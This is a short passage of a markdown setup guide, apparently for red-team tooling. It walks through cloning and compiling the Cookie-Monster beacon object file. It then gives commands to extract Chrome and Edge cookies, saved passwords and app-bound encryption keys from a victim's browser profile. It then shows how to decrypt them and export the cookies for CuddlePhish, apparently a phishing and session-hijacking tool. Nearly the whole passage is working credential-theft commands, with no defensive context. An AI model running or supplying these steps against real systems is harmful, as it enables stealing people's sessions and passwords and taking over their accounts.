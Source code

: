 
## 🍪 STEP 2: COOKIE-MONSTER-BOF INTEGRATION

### **2.1 Clone Cookie-Monster Repository**
```bash
git clone https://github.com/KingOfTheNOPs/cookie-monster.git
cd cookie-monster
```

### **2.2 Install Python Dependencies**
```bash
pip3 install -r requirements.txt
# Installs: pycryptodome, pyasn1_modules
```

### **2.3 Compile BOF Files**
```bash
# Ensure Mingw-w64 and make are installed
make

# This creates:
# - cookie-monster-bof.x64.o (64-bit)
# - cookie-monster-bof.x86.o (32-bit)
```

### **2.4 Test Cookie-Monster Functionality**
```bash
# Extract Chrome cookies
cookie-monster --chrome --cookie-only

# Extract Edge cookies
cookie-monster --edge --cookie-only

# Extract passwords
cookie-monster --chrome --login-data-only

# Extract app-bound encryption keys
cookie-monster --system "C:\Users\<USER>\AppData\Local\Chrome\User Data\Local State" <PID>
```

### **2.5 Decrypt Captured Data**
```bash
# Decrypt cookies
python3 decrypt.py -k "extracted_key" -o cookies -f ChromeCookies.db

# Export for CuddlePhish
python3 decrypt.py -k "extracted_key" -o cuddlephish -f ChromeCookies.db

# Extract passwords
python3 decrypt.py -k "extracted_key" -o passwords -f ChromePasswords.db
```

---